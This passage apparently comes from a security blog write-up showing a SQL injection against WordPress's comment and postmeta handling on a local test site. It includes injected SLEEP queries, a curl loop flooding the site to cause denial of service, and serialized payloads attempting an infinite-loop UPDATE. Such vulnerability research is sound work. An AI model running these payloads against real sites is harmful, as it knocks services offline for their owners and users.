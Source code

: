 	mysql> ALTER TABLE wp_comments ENGINE=MyISAM;

Which, when we attempt to open up the web page results in the following:

	mysql> show processlist;
	+-----+------+-----------+------------+---------+------+------------------------------+------------------------------------------------------------------------------------------------------+
	| Id  | User | Host      | db         | Command | Time | State                        | Info                                                                                                 |
	+-----+------+-----------+------------+---------+------+------------------------------+------------------------------------------------------------------------------------------------------+
	| 868 | root | localhost | hackedsite | Query   |    0 | init                         | show processlist                                                                                     |
	| 870 | root | localhost | hackedsite | Query   |   37 | User sleep                   | UPDATE wp_comments SET comment_approved = '9' WHERE comment_ID IN ('1') OR SLEEP('9')                |
	| 894 | root | localhost | hackedsite | Query   |    2 | Waiting for table level lock | SELECT * FROM wp_comments JOIN wp_posts ON wp_posts.ID = wp_comments.comment_post_ID WHERE ( comment |
	+-----+------+-----------+------------+---------+------+------------------------------+------------------------------------------------------------------------------------------------------+
	3 rows in set (0.00 sec)

Then all we have to do is open up 65+ connections:

	$ for i in {0..65}
	> do
	> curl http://local.wordpress.sec/index.php/2015/08/23/hello-world/ &
	> done

And tada! DoS:

![A Successful Denial Of Service Attack](/images/tech-blog/hacked/6.jpg)
![A Successful Denial Of Service Attack](/images/tech-blog/hacked/7.jpg)

`SLEEP`ing a thread will occupy it for a long while, until the timeout for the 
database. So if you wanted this to last until the database was restarted you 
would want to cause an infinite loop with the update. But how would we do this?
Easy! Like this:

	UPDATE wp_comments 
		SET comment_approved = '1', comment_ID = comment_ID + '1' 
	WHERE comment_ID IN ('') OR (comment_ID >= 0 OR '1'='1');

This causes an infinite loop because the index used to solve the `WHERE` 
part of the update is effected by the update itself. And so once the update 
takes place, the updated row will be sorted to another place in the index, 
where it will be updated again. Again, injecting this is easy:

	$comments = array("') OR (comment_ID >= 0 OR '1'='1" => "1', comment_ID = comment_ID + '1")
	UPDATE wp_postmeta SET meta_value = "a:1:{s:32:\"\') OR (comment_ID >= 0 OR \'1\'=\'1\";s:32:\"1\', comment_ID = comment_ID + \'1\";}" WHERE meta_key = '_wp_trash_meta_comments_status';

But luckily for the system, this fails due to primary key errors, and we can't 
inject an [IGNORE] keyword into the query without modifying the source code 
itself. So it seems an infinite loop attack is out of our range given the indices 
on the table, but the `SLEEP` value can easily be made into the thousands range
so it's not actually neccesary for an attack to work.
